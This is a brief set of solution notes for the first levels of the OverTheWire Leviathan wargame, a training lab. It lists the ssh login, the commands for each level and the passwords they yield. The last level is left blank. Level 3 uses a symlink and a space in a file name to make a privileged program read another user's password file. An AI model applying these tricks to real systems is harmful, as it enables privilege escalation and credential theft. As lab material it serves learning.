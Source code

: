 ssh leviathan0@leviathan.labs.overthewire.org -p 2223

1)
- cat .backup/bookmarks.html | grep pass
: 3QJ3TgzHDq

2)
- ltrace ./check
- cat /etc/leviathan_pass/leviathan2
: NsN1HwFoyN

3) 
- mktemp -d
- chmod 777 /tmp/tmp.yIc6IvqqGX/apontador
- touch /tmp/tmp.yIc6IvqqGX/"test file.txt"
- ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.yIc6IvqqGX/test
- ./printfile /tmp/tmp.yIc6IvqqGX/"test file.txt"
: f0n8h2iWLP

4)
-
:
